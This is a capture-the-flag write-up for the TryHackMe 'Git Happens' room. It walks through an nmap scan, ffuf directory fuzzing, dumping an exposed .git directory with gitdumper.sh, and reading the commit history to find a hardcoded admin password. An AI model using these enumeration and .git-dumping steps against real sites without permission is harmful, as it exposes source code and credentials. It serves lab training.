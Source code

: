 ```yaml
---
author: "Shebu"
title: "Git Happens - THM"
date: "2021-11-17"
tags: ["git", "tryhackme"]
cover:
    image: "nul"
    # can also paste direct link from external site
    # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
    alt: "<alt text>"
    caption: "<text>"
    relative: false # To use relative path for cover image, used in hugo Page-bundles
---
```


## Room Description -

  Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

**Room Link -**  [https://tryhackme.com/room/githappens](https://tryhackme.com/room/githappens) 

**Creator -**  [hydragyrum](https://tryhackme.com/p/hydragyrum) 


### Task 1 - Find the Super Secret Password

**NMAP**

```bash
# Nmap 7.91 scan initiated Wed Jul 21 01:43:34 2021 as: nmap -sC -sV -v -p 80 -Pn -oN git-happens.nmap 10.10.73.189
Nmap scan report for 10.10.73.189
Host is up.

PORT   STATE    SERVICE VERSION
80/tcp filtered http

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 21 01:43:37 2021 -- 1 IP address (1 host up) scanned in 3.18 seconds


``` 

As you can see there is only one port open :

**Port 80** - ` HTTP `

**Web Enumeration**

We get a static login page  as below 👇🏻

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1628158807688/vn3YzWyKU.png)

There is nothing much here , let's do some directory busting .

> ffuf -c -t 100 -w /usr/share/wordlists/dirb/common.txt -u http://git-happens.thm/FUZZ

We get the following directories

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1628158936558/ZSR8JmSD5.png)


```bash
.git/HEAD
css
index.html
``` 


The .git directory is what interests me since this box is related to git .

Lets take a look at that directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1628159120067/OXABUNUtq.png)

Cool ! Let's download all of them using a tool called `gitdumper` which is a part of `GitTools` repo.
Link - https://github.com/internetwache/GitTools

Runnning the help command on `gitdumper.sh` tells us the syntax which we need to use to run the tool .

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1628159392614/HaMgY6fPQ.png)

As the tool says lets create a directory to download all the files. I made a directory called **git** and ran the script along with the URL of the website.


```bash
 /opt/tools/GitTools/Dumper/gitdumper.sh http://git-happens.thm/.git/    git


``` 


```bash
┌──(shebu㉿kali)-[~/Desktop/thm/git-happens]
└─$ /opt/tools/GitTools/Dumper/gitdumper.sh http://git-happens.thm/.git/ git                                 127 ⨯
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating git/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[+] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/d0/b3578a628889f38c0affb1b75457146a4678e5
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/b8/6ab47bacf3550a5450b0eb324e36ce46ba73f1
[+] Downloaded: objects/77/aab78e2624ec9400f9ed3f43a6f0c942eeb82d
[+] Downloaded: objects/f1/4bcee8053e39eeb414053db4ec7b985f65edc8
[+] Downloaded: objects/9d/74a92581071ae7c4a470ff035e0de4598877e5
[+] Downloaded: objects/20/9515b2f7cbdfb731d275c4b089e41ba35c3bc8
[+] Downloaded: objects/5a/35c9b7c787c22f689d0364cf57b013a11561a2
[+] Downloaded: objects/08/906612dfe6821cebc21794eb85601fc4f54de9
[+] Downloaded: objects/4a/2aab268541cbcc434e0565b4f4f2deca29ee5f
[+] Downloaded: objects/7c/578d86a8713b67af2cb1b1d7c524c23cefe7aa
[+] Downloaded: objects/4e/7178fa5b68fec15e54f2b79ace6f9ce0169e01
[+] Downloaded: objects/2e/b93ac3534155069a8ef59cb25b9c1971d5d199
[+] Downloaded: objects/4c/f757268c6824041664d132a29908aa9c362a26
[+] Downloaded: objects/3a/39b02d3b9d12222bac4737ee67e31403d62f13
[+] Downloaded: objects/ae/f68b1e25df81a8c96ee4d57b20cc9f7a1ebee5
[+] Downloaded: objects/d6/df4000639981d032f628af2b4d03b8eff31213
[+] Downloaded: objects/56/820adbbd5ac0f66f61916122c94ea52937e9b2
[+] Downloaded: objects/d9/54a99b96ff11c37a558a5d93ce52d0f3702a7d
[+] Downloaded: objects/06/012255f074d7bc4acc6fadbcff004380b5f83b
[+] Downloaded: objects/bc/8054d9d95854d278359a432b6d97c27e24061d
[+] Downloaded: objects/dd/13038df878d41b774ce4fd4552091d46873c25
[+] Downloaded: objects/8c/94b154aef92380e29a3f16f1a889b56127cf13
[+] Downloaded: objects/e5/6eaa8e29b589976f33d76bc58a0c4dfb9315b1
[+] Downloaded: objects/48/926fdeb371c8ba174b1669d102e8c873afabf1
[+] Downloaded: objects/ce/b8d530ebcf79806dffc981905ec8c2e0d7a65b
[+] Downloaded: objects/87/bcbcb476578c6cc90ed39f9404292539fe1c9c
[+] Downloaded: objects/39/5e087334d613d5e423cdf8f7be27196a360459
[-] Downloaded: objects/40/04c23a71fd6ba9b03ec9cb7eed08471197d843
[-] Downloaded: objects/19/a865c5442a9d6a7c7cbea070f3cb6aa5106ef8
[-] Downloaded: objects/0f/679a88dbbaf89ff64cb351a151a5f29819a3c0
[+] Downloaded: objects/0e/abcfcd62467d64fb30b889e8de5886e028c3ed
[+] Downloaded: objects/ba/5e4a76e3f7b6c49850c41716f8f1091fbdc84e
[+] Downloaded: objects/2f/423697bf81fe5956684f66fb6fc6596a1903cc
[+] Downloaded: objects/e3/8d9df9b13e6499b749e36e064ec30f2fa45657
[+] Downloaded: objects/0e/0de07611ada4690fc0ea5b5c04721ba6f3fd0d
[+] Downloaded: objects/66/64f4e548df7591da3728d7662b6376debfce8d

``` 

Once its done , let's check it out using git commands.
 

```bash
 git status
``` 



![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1628159716089/mjXTQFDuZ.png)

So these were the files which were not committed yet .Lets enumerate further and see whether we get any other information



```bash
git log
``` 


Running `git log` command gives us these results 


```bash
┌──(shebu㉿kali)-[~/Desktop/thm/git-happens/git]
└─$ git log   
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
(END)

``` 

If you go through the comments of all the commits , one of the comments seem quite interesting .


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1628159885300/BOjbUQyBP.png)

Seems like its the source code of the login page we saw earlier !

Lets view what changes were made during that commit -


```python
git show 395e087334d613d5e423cdf8f7be27196a360459
``` 


After scrolling through the source code, we find this piece of code where there is an insecure login function which contains the username & password of admin 😂

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1628160093356/x5nqTYA6z.png)

Grab the Super Secret Password 🚩  and submit it  ! Yes it's the flag which you want ✔